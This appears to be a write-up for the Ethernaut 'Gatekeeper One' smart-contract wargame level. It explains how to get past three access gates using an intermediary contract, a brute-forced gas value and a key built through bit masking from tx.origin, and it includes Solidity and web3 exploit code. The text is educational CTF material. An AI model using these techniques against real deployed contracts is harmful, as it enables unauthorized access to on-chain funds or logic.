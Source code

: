 gateOne: can be bypassed by using a contract so that `tx.origin != msg.sender`

gateTwo: adjust initial gas (had to bruteforce initial value, there must be a clever way to get this)

gateThree:

```
                       c        d
  -------- -------- -------- --------
  |       a        |        b        |

```

  - key = 64 bits
  - a = high 32 bits of key
  - b = low 32 bits of key
  - c = high 16 bits of b
  - d = low 16 bits of b

Then:

  - `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)` => `b == d` => `c == 0`
  - `uint32(uint64(_gateKey)) != uint64(_gateKey)` => `b != key` => `a != 0`
  - `uint32(uint64(_gateKey)) == uint16(tx.origin)` => `b == uint16(tx.origin)`

```
contract GatekeeperOne {
    function enter(bytes8 _gateKey) public returns (bool) {}
}

contract HackGatekeeperOne {
  function hack() public {
    GatekeeperOne gk1 = GatekeeperOne(<instance address>);

    bytes8 key = bytes8(0x1000000000000000) | bytes8(uint64(uint16(tx.origin)));

    gk1.enter(key);
  }
}
````

```
const abi = ...;
hackGK1Contract = new web3.eth.Contract(abi, '<contract address>');
hackGK1Contract.methods.hack().send({ from: player, gasLimit: 65933});
```
